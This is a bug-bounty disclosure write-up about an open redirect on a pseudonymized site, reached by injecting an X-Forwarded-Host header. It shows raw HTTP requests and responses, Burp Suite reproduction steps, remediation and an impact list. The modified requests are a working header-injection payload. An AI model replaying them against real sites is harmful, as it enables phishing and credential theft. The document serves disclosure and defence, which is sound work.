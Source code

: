 # Open-redirect-On-xyz.com-via-X-Forwarded-Host-Header
xyz.com is the made up website domain of a company I found the vulnerability on Hackerone , will keep the real name confidential.

# Description
I noticed that the below requests was vulnerable to an open redirect via the host header injection, because the url redirection link is gotten from the host header value and it is not verified thus allowing me to redirect a user to another website similar to the login page and steal user credentials.


Request
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
Response
-------------------snip--------------------------
<html><body>You are being <a href="https://atlas.xyz.tools/auth/saml?redirectUrl=https://atlas.xyz.tools">redirected</a>.</body></html>

```

# Steps To Reproduce

I will be using google.com and facebook.com as an example of a malicious hacker website.

STEP 1 : Visit atlas.xyz.com and capture the request below with burpsuite and send to the repeater.
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
```
STEP 2: Modify the request by adding X-Forwarded-Host: facebook.com or google.com.

Note: This can also be done by modifying the Host header value but when X-Forwarded-Host Header is present within the request, the redirect url is gotten from the value of the X-Forwarded-Host Header instead of the Host Header.


The request when modified should be as this below :
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
X-Forwarded-Host: facebook.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
send the request via the repeater , response should be
-----------snip-------------------------------
<html><body>You are being <a href="https://facebook.com/auth/saml?redirectUrl=https://facebook.com">redirected</a>.</body></html>
```

</br>
<div align="center">
  <img src="Kali_2020_x64_Customized_by_zSecurity_v1.2__Running__-_Oracle_VM_VirtualBox_25_02_2022_05_02_08.png" alt="Project Image">
</div>


Following the redirection.......
```plaintext
GET /auth/saml?redirectUrl=https://facebook.com HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
Upgrade-Insecure-Requests: 1
Host: facebook.com
```

Another request I was able to get a redirect easily was with the request below
```plaintext
GET / HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-Host: facebook.com
--------------------snip------------------------
```
Response
```plaintext
------------------snip--------------------------------------
<a class="btn btn-primary btn-lg" role="button" id="sign_in" href="https://facebook.com/login">Sign in</a>
```
</br>
<div align="center">
  <img src="Burp_Suite_Community_Edition_v2020.12.1_-_Temporary_Project_27_02_2022_12_04_48.png" alt="Project Image">
</div>
</br>
Request the response in browser session</br>
</br>
<p>As soon as the sign in button is clicked the user is redirected to a facebook.com instead of atlas.xyz.tools/login.</p>

# Remediation

This open redirection is possible because of unvalidated inputs gotten from the header requests. The redirection url is gotten from the host header but when the X-Forwarded-Host header is present, it can override the Host header value even if it is the correct redirection url thus the way to prevent this attack is to disable the X-Forwarded-Host Header and validate the host header value by maybe a whitelist.

# Impact

If you have an open redirection vulnerability, it makes many other attacks possible:

1). <b>Phishing :</b> The most obvious way to use an open redirect is to steer the victim away from the original site to a site that looks the same, steal user credentials, and then return to the vulnerable website as if nothing happened.

2). <b>Cross-site Scripting (XSS):</b> If the redirect allows the use of data: or javascript: protocols and the client supports such protocols in redirects, it makes it possible for the attacker to perform an XSS attack.

3). <b>Server-Side Request Forgery (SSRF):</b> Open redirects may be used to evade SSRF filters.

4). <b>Content-Security-Policy bypassing:</b> If you use CSP to protect against XSS and one of the whitelisted domains has an open redirect, this vulnerability may be used to bypass CSP.

5). <b>CRLF Injection:</b> If the redirection parameter allows line breaks, the attacker may try to perform response header splitting.

# Summary

Redirects are a common part of website operations but can cause application security risks when carelessly implemented.

An open redirect endpoint accepts un-trusted inputs as the target URL, allowing attackers to redirect users to a malicious website and opening up a wide array of attack vectors. Exploitation can be as simple as manually changing a URL parameter value to an attacker-controlled site.
